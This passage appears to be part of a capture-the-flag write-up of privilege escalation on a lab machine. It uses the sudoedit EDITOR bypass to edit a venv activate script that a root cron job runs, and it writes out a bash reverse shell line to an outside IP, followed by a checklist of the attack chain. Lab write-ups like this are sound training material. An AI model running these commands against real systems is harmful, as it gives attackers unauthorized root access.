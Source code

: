 ```bash
result:
/home/dev_admin
/app/venv
/app/venv/bin
/app/venv/bin/activate
/app/venv/bin/Activate.ps1
/app/venv/bin/activate.fish
/app/venv/bin/activate.csh
```

It seems we have ownership of /app/venv/bin/activate. From before, in the file /app/test_and_update.sh we know that root runs this periodically as cron job and in the file, /app/venv/bin/activate gets ran. Let’s search up sudoedit (Sudo version 1.9.9) vulnerabilties: https://www.exploit-db.com/exploits/51217. It seems we can set a variable EDITOR then execute the command we are allowed, but in reality changing the file in EDITOR; so we can edit /app/venv/bin/activate and put a reverse shell:

```bash
ls -l /app/venv/bin/activate

result:
-rw-rw-r-- 1 root dev_admin 1976 Dec 10 16:21 /app/venv/bin/activate

#we have confirmed we have permission to edit.

sudo -u dev_admin sudoedit /app/venv/bin/activate

EDITOR="vim -- /app/venv/bin/activate" sudoedit -u dev_admin /app/app-testing/tests/functional/creds.txt

#Now add this in the file:
bash -c 'bash -i >& /dev/tcp/10.10.14.132/9001 0>&1'

#Now save it with Esc, :wq!
```

We now have root shell.

- LFI vuln
- werkzeug console and debugger
- LFI vuln to find private/public bits
- reverse shell with werkzeug console
- mysql credentials in config file
- cme verify passwords
- ps -ef check processes
- checking more config files
- port forwarding
- chromium
- sudo -l
- finding CVE on sudoedit
- understand exploit to use for different purpose